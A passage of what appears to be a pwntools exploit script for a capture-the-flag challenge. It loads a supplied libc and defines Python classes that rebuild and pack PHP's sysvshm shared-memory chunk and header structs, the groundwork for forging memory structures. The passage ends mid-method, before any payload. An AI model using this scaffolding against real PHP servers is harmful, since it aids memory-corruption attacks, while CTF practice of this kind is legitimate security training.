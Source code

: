 libc = ELF("./libc.so.6")
context.arch = "amd64"


class ShmChunk:
    def __init__(self, key, length, next, content):
        self.key = key
        self.length = length
        self.next = next
        self.content = content

    def get(self):
        return flat(p64(self.key), p64(self.length), p64(self.next), self.content)

    def get_mem(self, data):
        return data[: self.length]

    def __repr__(self) -> str:
        return f"""struct sysvshm_chunk {{
\tzend_long key = {self.key};
\tzend_long length = {self.length};
\tzend_long next = {self.next};
\tzend_long mem = {chr(self.content[0])};
}};

Content: {self.content}
"""


class ShmObject:
    def __init__(self, magic, start, end, free, total, data):
        self.magic = magic
        self.start = start
        self.end = end
        self.free = free
        self.total = total
        self.data = data

    def get(self):
        return flat(
            self.magic, p64(self.start), p64(self.end), p64(self.free), p64(self.total)
        )

    def __repr__(self) -> str:
        return f"""struct sysvshm_chunk_head {{
\tchar magic[8] = {self.magic};
\tzend_long start = {self.start};
\tzend_long end = {self.end};
\tzend_long free = {self.free};
\tzend_long total = {self.total};
}};"""

    def search_key(self, key):
        # Search for the key
        # Not very inherent for the challenge

